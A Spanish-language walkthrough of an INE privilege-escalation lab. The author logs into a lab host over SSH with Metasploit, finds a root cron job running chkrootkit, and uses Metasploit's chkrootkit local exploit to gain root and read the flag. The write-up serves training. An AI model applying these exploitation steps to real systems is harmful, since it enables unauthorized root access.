







# Privilege Escalation - Rootkit Scanner

**Objective:** Escalate to the root user on the target machine and retrieve the flag!



Nos dan las credenciales para que nos conectemos por ssh

Vamos a logearnos en ssh con metasploit con el módulo **auxiliary/scanner/ssh/ssh_login** para poder a posteriori usar el módulo de post explotación de **Rootkit**
```bash
set username jackie
set password password
set rhosts demo.ine.local
```



Nos crea una sesión en la máquina



Consultamos los procesos



Vemos un proceso ejecutado por root **/bin/bash /bin/check-down**

Consultamos el proceso



Vemos que se ejecuta chrootkit cada minuto

```bash
background
```

Vamos a buscar un exploit con msfconsole
```bash
search rootkit
```

Usaremos *unix/local/chkrootkit*
```bash
set sessions 2
set lhost 192.129.84.2
```

Para el parámetro CHKROOTKIT tendremos que buscar el path hacie el binario **chkrootkit** en la máquina víctima



```bash
set chkrootkit /bin/chkrootkit
```

Ejecutamos el exploit



root

La flag está en /root/flag
